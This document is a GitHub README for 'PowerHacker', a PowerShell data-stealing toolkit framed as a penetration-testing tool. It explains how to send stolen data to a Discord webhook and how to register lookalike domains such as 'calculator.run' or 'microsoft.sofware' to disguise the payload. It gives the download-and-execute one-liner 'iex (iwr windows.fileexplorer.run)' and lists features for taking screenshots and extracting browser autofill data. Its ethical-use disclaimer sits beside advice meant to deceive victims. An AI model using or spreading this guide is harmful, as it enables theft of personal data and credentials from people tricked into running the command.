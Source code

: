 
# PowerHacker :zap: README

Welcome to PowerHacker, a PowerShell-based toolkit designed for penetration testers and cybersecurity professionals. PowerHacker prefers utilizing valuable Top-Level Domains (TLDs) and the setup of subdomains to facilitate efficient red team operations and security assessments.

- A simple command like `iex (iwr calculator.run)` is enough to give full control over a windows system. 

## :lock: Security Notice

Security and ethical use are paramount. PowerHacker is intended for **authorized penetration testing** and/or **educational purposes only**. Misuse of PowerHacker may result in legal consequences. Ensure you have explicit permission to test target systems with PowerHacker.

## :gear: Setup

To leverage PowerHacker for your assessments:

1. Clone the repository:
    ```
    git clone https://github.com/pentestfunctions/powerhacker.git
    ```

2. Navigate to the PowerHacker directory:
    ```
    cd powerhacker
    ```

3. Update the `$WebhookUrl` in the scripts to point to your Discord webhook for data exfiltration. To get a Discord webhook URL:
    - Create a Discord server or use an existing one.
    - Go to Server Settings > Integrations.
    - Click on "Webhooks" and then "New Webhook".
    - Customize your webhook, copy the URL, and use it in the script.

4. Upload the ps1 file to your github account.

5. Register a domain for best outcome, for example:
   - `fileexplorer.run`
   - You can also then add subdomains such as `windows.fileexplorer.run`
   - Some other good TLD ideas: `software` such as `microsoft.sofware` or `calculator.run`

## :rocket: Usage

PowerHacker simplifies the redirection of subdomains to your raw GitHub page containing the PowerShell code. To execute, use:

```
iex (iwr windows.fileexplorer.run)
```

This command downloads and executes the script, uploading all collected data to the specified Discord webhook.

## :warning: Features

- **TakeScreenshot**: Captures the current screen.
- **Convert-JsonToWav**: Converts JSON data to WAV format.
- **Get-BrowserData-AutoFill**: Extracts autofill information from browsers.
- **Comprehensive System Info**: Collects detailed system information, including OS version, build number, and more.

## :key: Emphasis on Security

- Always ensure you are in compliance with all applicable laws and regulations.
- Use PowerHacker responsibly to enhance security posture, not to undermine it.
- Verify the integrity and confidentiality of the data collected during your assessments.

## :question: Support

For questions, issues, or feature requests, use GitHub Issues within the repository.

## :memo: Contributing

Contributions to PowerHacker are welcome. Please submit pull requests with clear descriptions of changes and enhancements.

## :balance_scale: License

PowerHacker is released under [MIT License](LICENSE). By using PowerHacker, you agree to the terms of the license and acknowledge the tool's intended purpose for legal, authorized cybersecurity assessments only.
